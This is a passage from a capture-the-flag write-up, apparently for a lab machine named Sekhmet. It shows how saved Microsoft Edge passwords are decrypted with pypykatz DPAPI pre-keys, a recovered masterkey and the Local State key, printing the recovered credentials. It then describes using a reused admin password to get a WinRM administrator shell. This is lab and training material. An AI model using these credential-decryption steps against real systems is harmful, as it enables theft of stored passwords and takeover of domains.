logindata.decoded: SQLite 3.x database, last written using SQLite version 3038000, page size 2048, file counter 2, database pages 27, cookie 0x10, schema 4, UTF-8, version-valid-for 2
```

Inside the DB, all passwords are saved to the logins table.

```
└─$ sqlite3 logindata.decoded
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .databases
main: /home/kali/Sekhmet/logindata.decoded r/w
sqlite> .tables
breached                logins_edge_extended    sync_entities_metadata
field_info              meta                    sync_model_metadata   
insecure_credentials    password_notes        
logins                  stats                 
sqlite> select origin_url,username_value,password_value from logins;
http://somewhere.com/login.html|bob.wood@windcorp.htb|v10��9?�]�2y1e��OO�Nt�x#��5mmЂm��X=�t���
http://google.com/login.html|bob.wood@windcorp.htb|v10����]H��N/��g���%{��g�?���h�5PK� F��f�&▒�ܷxu�
http://webmail.windcorp.com/login.html|bob.woodADM@windcorp.com|v10���i���u25��ƴ-'�>lt<�R>Ȅa�k���km���H��
```

The key to decrypt them is inside of the "Local State" file and because it's protected with DPAPI and we're back on Linux, I'll use [pypykatz](https://github.com/skelsec/pypykatz) to recover the plaintext version.

This is done in four distinct steps:
1. Use Bob.Wood's SID and password to create pre-keys
2. Use the pre-keys to decrypt the master password
3. Use the master password to decrypt the Microsoft Edge password in Local State
4. Decrypt the Login Data with the Edge password

Let's get to it, starting with the generation of the pre-keys.

```
└─$ pypykatz dpapi prekey password 'S-1-5-21-1844305427-4058123335-2739572863-2761' '!@p%i&J#iNNo1T2' > prekeys
                                                                                                                                                                         
└─$ cat prekeys
4ea57b2e9e19cb91226b1ce0f64e4edad3d56c82
0fcd9d392606c1dbf84c875dcfad678ca56cb607
202e6812a189277e0ccd0bc72dcfdd4ed6e9469e
105453c2b8a1b6f51178d1e914ef70d85c3660b8
```



To decrypt the master password, we need to grab its GUID from the blob which can be done by extracting it from localstate with jq since it's JSON data.

```
└─$ cat localstate.decoded | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob

└─$ pypykatz dpapi describe blob blob
```



Now we'll use the pre-keys to create a file containing the masterkey using the masterkey file which can be found on the machine under the C:\Users\Bob.Wood\AppData\Roaming\Microsoft\Protect\S-1–5–21–1844305427–4058123335–2739572863–2761 directory.

```
└─$ pypykatz dpapi masterkey a8bd1009-f2ac-43ca-9266-8e029f503e11.decoded prekeys -o masterkey
                                                                                                                                                                         
└─$ cat masterkey                                                                                     
{
    "backupkeys": {},
    "masterkeys": {
        "a8bd1009-f2ac-43ca-9266-8e029f503e11": "930b9acfcf2f581cdb9929c1ed7e9ace387ce63f95e4f9e0c5b48e43d5c36bc8f2d84056195d9b02b681c98beafb090a2cdc51e799a22f863d3ad227746e0066"
    }
}
```

Finally, we can use the chrome subcommand to decrypt the Edge key in Local State and recover the passwords in Login Data.

```
└─$ pypykatz dpapi chrome --logindata ../logindata.decoded masterkey ../localstate.decoded
file: ../logindata.decoded user: bob.wood@windcorp.htb pass: b'SemTro\xc2\xa432756Gff' url: http://somewhere.com/action_page.php
file: ../logindata.decoded user: bob.wood@windcorp.htb pass: b'SomeSecurePasswordIGuess!09' url: http://google.com/action_page.php
file: ../logindata.decoded user: bob.woodADM@windcorp.com pass: b'[REDACTED]' url: http://webmail.windcorp.com/action_page.php
```

### Admin Shell
The final entry contains a password for Bob.WoodADM that logs into webmail.windcorp.com , but these credentials are reused for the domain too. We can grab a TGT using this password and grab a shell via WinRM to discover that this user is an Administrator.



Finally grabbing the root flag under the Administrator's Desktop folder completes this challenge. Overall this challenge was pretty difficult, but enumeration and research definitely paid off in the end.

If I didn't have previous knowledge of domain-joined Linux machines, then this would have stumped me for sure but I learned a ton too. I hope this was helpful to anyone following along or stuck and happy hacking!
